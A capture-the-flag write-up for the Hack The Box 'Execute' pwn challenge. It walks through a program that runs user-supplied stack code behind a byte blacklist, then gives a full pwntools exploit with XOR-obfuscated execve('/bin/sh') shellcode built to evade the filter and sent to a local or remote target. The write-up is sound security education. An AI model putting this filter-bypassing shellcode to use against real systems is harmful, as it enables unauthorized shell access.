

# Execute

- **Challenge**: [https://app.hackthebox.com/challenges/Execute](https://app.hackthebox.com/challenges/Execute)
- **Category**: Pwn
- **Level**: Easy
- **Author**: ryaagard

```bash

$ file *
execute:   ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=815ed65e93f716cd381035b74fa25dc5d7aa8ff5, for GNU/Linux 3.2.0, not stripped

execute.c: C source, ASCII text

flag.txt:  ASCII text

```

We proceed with the analysis of the source file **execute.c**.

## Source Code Analysis

```c

// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }

    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");

    int size = read(0, buf, 60);

    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

Essentially, the program allows inserting and executing arbitrary code loaded on the stack (that is, in the local variable **buf**).

**[+] Shellcode Injection Vulnerability**.

Indeed, note that the binary **execute** does not have the **No eXecutable** protection enabled.

```bash

$ checksec --file=execute
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The program allows allocating **60 bytes** of data on the stack, but the **shellcode** to be executed must pass the control of the **check** function.

The *check* function compares the input data with a **blacklist**, to avoid executing code containing the following bytes/characters:

```bash

$ python2 -c "print b'\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67'" | xxd
00000000: 3b54 6269 6e73 68f6 d2c0 5fc9 666c 6167  ;Tbinsh..._.flag
00000010: 0a                                       .

```

Hence, we proceed with building shellcode.

## Crafting the payload

How to bypass the **blacklist**?

**[IDEA]**: use the **XOR** function to obfuscate data.


Below is the Python script built for:

1. **Data obfuscation**
2. **Crafting the shellcode**
3. **Exploitation**

```python

#!/usr/bin/env python3
from pwn import context, ELF, asm, disasm, info, process, gdb, remote
from argparse import ArgumentParser
import os

exe = "./execute"
elf = context.binary = ELF(exe, checksec=False)

```

### 1. Data Obfuscation

```python

### Obfuscation: /bin/cat flag.txt

_bin_sh = int.from_bytes("/bin/sh\x00".encode(), byteorder="little")
key = 0x9222311122334411

obf_bin_sh = _bin_sh ^ key

info(f"Data Obfuscation:\n/bin/sh:\n\t{hex(_bin_sh)}\nkey:\n\t{hex(key)}\n/bin/sh XOR key:\n\t{hex(obf_bin_sh)}\n")

```

### 2. Crafting the shellcode

```python

### Shellcode generation: execve(char* pathname, char** argv, char** envp) ###

payload=b""

# char* pathname
payload+=asm(f"mov rdi, {obf_bin_sh}")
payload+=asm(f"mov r8, {key}")
payload+=asm("xor rdi, r8")
payload+=asm("push rdi")
payload+=asm("mov rdi, rsp")

# char** argv, char** envp
payload+=asm("xor r11, r11")
payload+=asm("mov rsi, r11")
payload+=asm("mov rdx, r11")

# syscall(59) => execve("/bin/sh", NULL, NULL)
payload+=asm("mov al, 0x3c")
payload+=asm("dec al")
payload+=asm("syscall")

info(f"Shellcode\n{disasm(payload)}\n")
info(f"Shellcode length: {len(payload)} bytes\n")

```

It should be noted that this construction was reached after various local tests in **DEBUG** mode (see next section) since some instructions like **pop rdi** did not pass the *check* function.

### 3. Exploitation

```python

### Exploitation ###

context.log_level="debug"
gdbinit="""
init-pwndbg
break* main
break* main+98
break* main+134
# break* main+174
continue
"""

parser = ArgumentParser(prog=os.path.basename(__file__))
parser.add_argument("-r", "--remote", help="-r, --remote REMOTE:PORT", action="store", type=str, nargs=1)
parser.add_argument("-p", "--process", help="-p, --process", action="store_true")
parser.add_argument("-d", "--debug", help="-d, --debug", action="store_true")

args = parser.parse_args()
if args.process:
    io=process([exe])
elif args.debug:
    io=gdb.debug([exe], gdbscript=gdbinit)
elif args.remote is not None:
    REMOTE, PORT = args.remote[0].split(':')
    io=remote(REMOTE, int(PORT))
else:
    exit(1)

io.sendlineafter(b'\n',payload)
io.interactive()

```

## Local Exploitation


With **DEBUG** mode it is possible to see:

### 1. The shellcode in memory


### 2. Bypassing the check function


 
### 3. Shellcode execution


## Remote Exploitation

Finally, the **flag** is captured remotely.



GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
